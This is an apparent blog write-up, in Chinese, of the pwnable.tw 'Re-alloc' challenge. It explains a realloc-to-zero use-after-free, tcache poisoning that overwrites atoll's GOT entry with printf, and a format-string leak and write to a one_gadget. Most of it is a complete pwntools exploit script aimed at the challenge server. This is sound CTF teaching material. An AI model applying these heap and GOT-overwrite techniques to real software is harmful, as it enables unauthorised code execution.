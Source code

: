 ```yaml
---
title: Re-alloc
date: 2021-05-08 23:40:11
tags:
---
```

Re-alloc in pwnable.tw
<!--more-->

# Challenge

题目非常简洁，一共三个功能：

1. realloc `创建`一个堆块
2. realloc `重新分配`一个已经存在堆块的大小
3. realloc `释放`一个堆块

存在的漏洞点有两个

1. 创建一个堆块中有个 OFF BY NULL（虽然对做题没啥用）
2. 重新分配大小中可以设置大小为0，这样就是一个UAF

题目限制

1. 只能同时控制两个chunk
2. realloc大小≤0X78

# Solution

主要就是如何利用这个UAF

显而易见的是可以将一个任意地址链入tcache，设第一次的size为 `x`  

`add(0,x) - > re(0,0) - > re(0,x-0x20,p64(0xdeadbeef))`

但是这样做 有个问题如果我们想要获得0xdeadbeef这个chunk我们需要add 2次，那么如何清除指针是一个问题，本题中出了delet功能没有其他功能可以清除指针。

delet中有两个问题

1. chunk size不能是 `x` ，否则会挡住我们想要获得的地址
2. 防止 `double free` 被检查到

在libc-2.29中防止double free被检查的方法有两个，修改chunk size 或者修改key。

本题中前者比较好用，因为realloc有切割功能，只要通过第二个功能就可以修改chunk的大小。

所以我们的思路是

1. UAF 将需要控制的地址链入tache
2. 清空bss上指针
3. 写入需要控制的地址

# EXP

```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
def cmd(c):
	p.sendlineafter("ce: ",str(c))
def add(idx,size,c="A"):
	cmd(1)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",c)

def re(idx,size,c="A"):
	cmd(2)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("Size:",str(size))
	if(size>0):
		p.sendafter("Data:",c)
def free(idx):
	cmd(3)
	p.sendlineafter("dex:",str(idx))
atoll_got=0x000000000404048
printf_plt=0x401070
exit_got=0x000000000404018
#p=process('./pwn')
p=remote("chall.pwnable.tw",10106)
# LINK atoll_got in tcache
add(0,0x78,'A'*0x78)
re(0,0)
re(0,0x28,p64(atoll_got))
# GET atoll_got 
add(1,0x78)
re(1,0x58)
free(1)
add(1,0x78,p64(printf_plt))

#gdb.attach(p,'b printf')
# FORMAT STRING
free("%9$p")
base=int(p.readline()[:-1],16)-(0x7ffff7e53e4a-0x7ffff7dd0000)
one=0x106ef8+base

for off in range(6):
	free("%{}c%16$hn".format(0x4018+off))
	free("%{}c%20$hhn".format(one&0xff))
	one=one>>8
cmd(4)

log.warning(hex(base))
p.interactive()
```